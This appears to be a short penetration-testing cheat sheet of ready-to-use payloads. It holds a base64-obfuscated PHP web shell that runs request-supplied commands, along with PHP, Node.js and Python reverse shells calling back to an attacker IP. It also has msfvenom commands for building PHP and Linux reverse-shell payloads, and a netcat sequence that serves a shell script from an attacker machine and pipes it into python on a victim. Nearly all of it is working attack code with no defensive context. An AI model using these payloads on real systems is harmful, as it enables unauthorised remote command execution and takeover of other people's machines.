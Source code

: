 ## PHP Command Execution

Payload: echo passthru($_REQUEST["cmd"])
```
<pre><?php eval(base64_decode('ZWNobyBwYXNzdGhydSgkX1JFUVVFU1RbImNtZCJdKTsg'));?></pre>
```
## PHP Reverse Shell

```
$sock=fsockopen("10.10.10.1",5555);
exec("/bin/sh -i <&3 >&3 2>&3");
```

## MsfVenom PHP Reverse Shell

```
msfvenom -p php/reverse_php LHOST=10.0.0.1 LPORT=5555 -o ./rs.php
```

## Node.js Reverse Shell

```
var net = require("net"), sh = require("child_process").exec("/bin/sh");
var client = new net.Socket();
client.connect(5555, "10.10.10.1", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```

### Node.js notes

JavaScript strings can be escaped:

- hex encode: "/" -> "\\\\x2f" 

- unicode encode: "/" ->  "\\\\u002f"


## Python Reverse Shell

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.10.1",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

## Serve Reverse Shell Remotely

Wait for connect back on Kali

```
kali@kali:~$ nc -nlvp 5555
```

Serve the shell from Kali

```
kali@kali:~$ nc -nvlp 4444 < shell.py
```

Get the shell from Kali and execute it on Victim

```
joe@victim:~$ nc 10.10.10.1 4444 | python
```


## MsfVenom Linux Reverse Shell 

```
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.1 LPORT=4444 -f elf -o ./rs
```


